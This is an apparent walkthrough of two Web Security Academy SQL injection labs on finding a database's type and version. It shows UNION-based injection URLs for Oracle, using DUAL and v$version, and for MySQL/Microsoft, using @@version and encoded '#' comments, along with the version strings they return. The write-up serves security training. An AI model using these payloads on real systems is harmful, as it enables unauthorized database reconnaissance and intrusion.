 <h1>Examining the database in SQL injection attacks</h1>

Following the identification of an SQL injection vulnerability, it is generally useful to obtain more information about the database. We can, for example, query the version details for the database. This process depends on the database type, so its crucial that we find out first the type of database we are attacking.

For example, to query the version details on Oracle we can execute:

```
 SELECT * FROM v$version 
```

To determine what database tables exist and which columns they contain, we can execute the following query on most databases:

```
 SELECT * FROM information_schema.tables 
```

## Querying the database type and version

![1](https://user-images.githubusercontent.com/57036558/76876056-4b282b80-6869-11ea-8f4b-e2a4dca5f86f.png)

To solve this lab we need to execute an SQL injection UNION attack to display the database version string.

It is specified that the lab is built on an ORACLE database. On Oracle databases, every SELECT statement must specify a table to select FROM and that there is a built-in table on Oracle called DUAL which we can use for this purpose.

So to retreive the number of columns, we use the same method as in the other labs (using `' UNION SELECT NULL`) but we need to select the `DUAL` table:

```
https://web-security-academy.net/filter?category=Pets%27+UNION+SELECT+null,null+FROM+DUAL--
```

After finding out that the database has two columns, we need to find out which columns display data. After finding out that both columns display data, we can proceed into finding the version of the database:

```
https://web-security-academy.net/filter?category=Pets%27+UNION+SELECT+BANNER,null+FROM+v$version--
```

Which will display all the information about the database and solve the lab:

```
CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```

![2](https://user-images.githubusercontent.com/57036558/76877206-f71e4680-686a-11ea-9996-445755bf08d3.png)

To solve this lab we need to do the same thing, but instead on MySQL and Microsoft database.

The differences in this lab and the previous one are quite significant. To comment the rest of the query we can't use `--` anymore, and instead we need to use `# `. To get the version of the database we don't need to specify a table like on Oracle databases, and we use `@@version` on a displaying column.

Also, to execute this attack on the browser, we need to encode `#` to `%23` otherwise it won't work.

On the browser:

```
https://web-security-academy.net/filter?category=Lifestyle%27+UNION+SELECT+@@VERSION,NULL%23
```

Which displays the version of the database and solves the lab:

```
8.0.15
```

Note: Although I'm showing how to solve all the labs using the browser, Burp Suite is a way faster solution, special using Burp Repeater. In this case, it would encode the `#` character automatically, and would have saved me time and frustration trying to understand why the attack wasn't working even after peaking the solutions.


